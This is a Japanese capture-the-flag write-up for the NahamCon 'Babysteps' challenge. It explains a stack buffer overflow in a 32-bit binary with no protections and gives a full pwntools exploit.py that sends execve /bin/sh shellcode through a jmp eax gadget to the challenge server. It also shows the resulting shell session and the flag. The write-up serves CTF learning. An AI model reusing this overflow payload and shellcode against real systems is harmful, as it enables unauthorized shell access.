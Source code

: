 # Babysteps:Binary Exploitation:385pts
Become a baby! Take your first steps and jump around with BABY SIMULATOR 9000!  

**Connect with:**  
```
nc challenge.nahamcon.com 31896
```

**Attachments:** [babysteps](babysteps)　[babysteps.c](babysteps.c)  

# Solution
接続先、ソース、バイナリが渡される。  
ソースを読むと`ask_baby_name`に自明なBOFがある。  
ファイルを調査すると以下のようであった。  
```bash
$ file babysteps
babysteps: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=23b7b1945e8ce3847c586e16d9ccfb70fe7b6973, for GNU/Linux 3.2.0, not stripped
$ checksec babysteps
[*] '/babysteps'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
32bitバイナリで、全セキュリティ機構がOFFのようだ。  
しかしソースを見てもsystemなどはなく、シェルコードを流し込んでやることを考える。  
その際に`jmp esp`(`ff e4`)を探さなければならない。  
objdumpで探しておく。  
```bash
$ objdump -D babysteps > objdump.txt
$ grep 'ff e4' objdump.txt
```
ないため、代替案を探さなければならい。  
```bash
$ grep 'ff e' objdump.txt
 8049545:       ff e0                   jmp    *%eax
```
運よく`jmp eax`があるようだ。  
あとはeaxにespを入れるようなものを見つければよい。  
```bash
$ grep -1 '(%esp),%eax' objdump.txt
080495ac <__x86.get_pc_thunk.ax>:
 80495ac:       8b 04 24                mov    (%esp),%eax
 80495af:       c3                      ret
```
これらをもとに[shellcode](https://inaz2.hatenablog.com/entry/2014/03/13/013056)を実行させる。  
以下のexploit.pyで行う。  
```python
from pwn import *

elf = ELF("./babysteps")
io = remote("challenge.nahamcon.com", 31896)
#io = process(elf.path)
rop = ROP(elf)

# ref. https://inaz2.hatenablog.com/entry/2014/03/13/013056
shellcode = b"\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\xb8\x0b\x00\x00\x00\xcd\x80"

jmp_eax = 0x8049545
mov_esp_eax = 0x80495ac

base = b"A" * 28
payload = base + p32(jmp_eax) + p32(mov_esp_eax) + shellcode

io.sendline(payload)
io.interactive()
```
実行する。  
```bash
$ python exploit.py
[*] '/babysteps'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Opening connection to challenge.nahamcon.com on port 31896: Done
[*] Loaded 10 cached gadgets for './babysteps'
[*] Switching to interactive mode
              _)_
           .-'(/ '-.
          /    `    \
         /  -     -  \
        (`  a     a  `)
         \     ^     /
          '. '---' .'
          .-`'---'`-.
         /           \
        /  / '   ' \  \
      _/  /|       |\  \_
     `/|\` |+++++++|`/|\`
          /\       /\
          | `-._.-` |
          \   / \   /
          |_ |   | _|
          | _|   |_ |
          (ooO   Ooo)

=== BABY SIMULATOR 9000 ===
How's it going, babies!!
Are you ready for the adventure of a lifetime? (literally?)

First, what is your baby name?
$ ls
babysteps
bin
dev
etc
flag.txt
lib
lib32
lib64
libx32
usr
$ cat flag.txt
flag{7d4ce4594f7511f8d7d6d0b1edd1a162}
```
シェルが得られ、flagがファイルに書かれていた。  

## flag{7d4ce4594f7511f8d7d6d0b1edd1a162}
